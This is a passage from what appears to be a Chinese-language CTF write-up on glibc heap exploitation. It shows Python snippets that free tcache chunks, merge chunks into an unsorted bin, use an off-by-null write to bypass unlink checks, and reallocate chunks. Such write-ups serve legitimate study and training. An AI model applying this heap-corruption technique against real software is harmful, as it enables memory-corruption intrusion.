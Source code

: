 这里应该是进行重新的分配，方便修改原来54号堆块上的数据

### <a class="reference-link" name="4%E3%80%81"></a>4、

之后的操作

```
#------tcache
    for i in range(42,49):#0xe8
        delete(i)        
    for i in range(7,14):#0x98
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)
    #------tcache

    delete(0x37)
    delete(0x36)
    delete(0x32)
    delete(58)#这里58 和 0x32形成一个大的unsortedbin
    pause()
```

此时堆块的情况

[![](https://p2.ssl.qhimg.com/t01deecc25448f19a4a.png)](https://p2.ssl.qhimg.com/t01deecc25448f19a4a.png)

整体的堆分布情况

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01451fb2dfed560fb0.png)

这里完成了一次写入，也就是unlink检查绕过的bk部分（经过off-by-null敲除0xb20中的20就是全部）

[![](https://p2.ssl.qhimg.com/t01078560806bd488b4.png)](https://p2.ssl.qhimg.com/t01078560806bd488b4.png)

之后是一系列的申请

```
claim(0x98)
    claim(0xb8)
    claim(0xe8)

    add(0xc8)#最大的里面分割   0x32
    add(0xb8)#0xc1分配              0x36
    add(0xb8)#最大的里面分割        0x37  
    add(0x98)#0xa1分配            58  这个是原来的50



    #--top_chunk
    add(0x98)        #0x3d
    add(0x98)        #0x3e
    add(0x18)        #0x3f
```
